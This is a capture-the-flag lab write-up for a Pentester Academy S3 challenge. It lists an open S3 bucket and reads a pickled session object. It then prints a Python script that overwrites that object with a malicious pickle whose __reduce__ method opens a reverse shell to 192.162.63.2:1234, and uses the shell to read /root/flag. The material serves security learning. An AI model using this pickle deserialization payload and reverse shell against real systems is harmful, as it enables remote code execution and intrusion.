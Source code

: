 # S3 Python Object Store

Open the lab link and a VNC session will be opened in a new tab with a browser window showing the appication 

![image](https://user-images.githubusercontent.com/46797181/228726011-7eef8812-b4d2-46de-935d-0708fce89a37.png)

Checking the page source, it shows that components are loaded from the s3 bucket 
![image](https://user-images.githubusercontent.com/46797181/228726536-460404e7-c81a-4dd0-a6af-1566d598ced5.png)

Execute the command `aws --endpoint http://s3.pentesteracademylab.appspot.com --no-sign-request s3 ls s3://assets`

#### Note: This challenge is loaded in PT Academy VNC machine, it works only there, using local machine, HTTP 404 will appear 

There is a `sessions` folder, check with `aws --endpoint http://s3.pentesteracademylab.appspot.com --no-sign-request s3 ls s3://assets/sessions/`

The `sessions` directory has a value, log in the web application with the credentials `guest:guest` as stated in the exercise instructions, then repeat the above command and notice that another session object has been created.

![image](https://user-images.githubusercontent.com/46797181/228727892-28109b46-30da-4462-a938-2e5f79a5521e.png)

Interact with the S3 server using boto3 python library and check the content of the recently created object in `sessions` directory.

```

python
import boto3
from botocore import UNSIGNED
from botocore.config import Config
s3=boto3.client('s3',
endpoint_url='http://s3.pentesteracademylab.appspot.com',config=Config(signature_version=UN
SIGNED))
object =
s3.get_object(Bucket='assets',Key='sessions/43085237187070924862845585858148322582')
data=object['Body'].read()
data
import pickle
pickle.loads(data)
```
![image](https://user-images.githubusercontent.com/46797181/228729251-315b2b6e-e439-4819-a53b-863d683a9c00.png)

Create a python script to generate the required pickle payload and overwrite the recently created object in the `sessions` directory.

```
import pickle
import subprocess
import os
import boto3
from botocore import UNSIGNED
from botocore.config import Config
class Shell(object):
 def __reduce__(self):
  return (os.system,("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"192.162.63.2\",1234)); os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'&",))
s3=boto3.client('s3',endpoint_url='http://s3.pentesteracademylab.appspot.com',config=Config(signature_version=UNSIGNED))
pickledData=pickle.dumps(Shell())
s3.put_object(Bucket='assets',Key='sessions/43085237187070924862845585858148322582',Body=pickledData)


```
Execute the script, refresh the web page and the shell is obtained, then get the flag in `/root/flag`

![image](https://user-images.githubusercontent.com/46797181/228736926-fa905399-15fc-4d7e-a4b1-e6d566899372.png)


#### Note: When refreshing the web page, the session is killed and login screen appears again. If want to repeat the step, log in again with guest:guest, obtain the new session value in `sessions` and replace the value in the python script and execute again the script along with refreshing the page to obtan again the shell

!! EXERCISE COOMPLETED 







